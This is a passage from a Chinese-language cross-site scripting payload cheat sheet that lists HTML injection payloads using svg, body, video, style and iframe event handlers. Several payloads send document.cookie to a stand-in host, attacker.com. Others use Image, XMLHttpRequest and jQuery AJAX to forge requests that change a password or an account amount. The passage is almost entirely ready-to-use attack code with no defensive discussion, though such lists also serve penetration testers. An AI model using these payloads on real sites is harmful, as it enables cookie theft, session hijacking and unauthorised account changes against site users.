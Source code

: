 #### 2.3 特殊标签利用
```html
<!-> SVG 标签 -->
<svg onload="alert(1)">
<svg onload="alert(1)"//
<svg onload="location.href='http://attacker.com/collect?c='+document.cookie"/>

<!-> Body 标签 -->
<body onload=alert(1)>
<body onpageshow=alert(1)>
<body onload=location.href='http://attacker.com/collect?cookie='+document.cookie></body>
<body/**/onload=location.href='http://attacker.com/collect?cookie='+document.cookie></body>
<body/onload=location.href='http://attacker.com/collect?cookie='+document.cookie></body>

<!-> Video 标签 -->
<video onloadstart=alert(1) src="/media/hack-the-planet.mp4" />

<!-> Style 标签 -->
<style onload=alert(1)></style>

<!-> Iframe 标签 -->
<iframe onload=document.location='http://attacker.com/collect?cookie='+document.cookie>'
```

#### 2.4 特殊场景 Payloads
```html
<!-> 使用 Image 对象 -->
<script>var img = new Image();img.src = "http://attacker.com/"+document.cookie;</script>

<!-> 使用 XMLHttpRequest -->
<script>
var httpRequest = new XMLHttpRequest();
httpRequest.open('POST', 'http://attacker.com/api/change.php', true);
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");
httpRequest.send('p=1234567');
</script>

<!-> 使用 jQuery AJAX -->
<script>$.ajax({
    url:"api/amount.php",
    method:"POST",
    data:{'u':'1','a':''}
})</script>

<!-> 使用 jQuery AJAX 修改密码 -->
<script>$.ajax({
    url:"api/change.php",
    method:"POST",
    data:{'p':'1717'}
})</script>

<!-> 使用 jQuery AJAX 修改金额 -->
<script>$.ajax({
    url:"api/amount.php",
    method:"POST",
    data:{'u':'1','a':''}
})</script>
```
